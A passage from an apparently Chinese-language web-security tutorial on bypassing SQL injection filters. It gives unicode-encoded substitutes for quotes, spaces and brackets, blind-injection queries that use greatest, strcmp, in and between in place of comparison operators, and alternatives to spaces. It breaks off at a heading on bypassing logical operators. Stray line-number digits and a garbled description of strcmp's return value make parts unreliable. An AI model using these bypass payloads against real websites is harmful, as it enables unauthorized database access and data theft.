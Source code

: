 **unicode编码对部分符号的绕过：**

```bash
单引号=> %u0037 %u02b9
空格=> %u0020 %uff00
左括号=> %u0028 %uff08
右括号=> %u0029 %uff09
1234
```

## 6.<>大于小于号绕过

在sql盲注中，一般使用大小于号来判断ascii码值的大小来达到爆破的效果。
greatest(n1, n2, n3…):返回n中的最大值 或least(n1,n2,n3…):返回n中的最小值

```bash
select * from cms_users where userid=1 and greatest(ascii(substr(database(),1,1)),1)=99;
1
```

strcmp(str1,str2):
若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1

```bash
select * from cms_users where userid=1 and strcmp(ascii(substr(database(),0,1)),99);
1
```

in关键字

```bash
select * from cms_users where userid=1 and substr(database(),1,1) in ('c');
1
```

between a and b:范围在a-b之间（不包含b）

```bash
select * from cms_users where userid=1 and substr(database(),1,1) between 'a' and 'd';
1
```

## 7.空格绕过

一般绕过空格过滤的方法有以下几种方法来取代空格

```bash
/**/
()
回车(url编码中的%0a)
`(tab键上面的按钮)
tab
两个空格
123456
```

8.对or and xor not 绕过

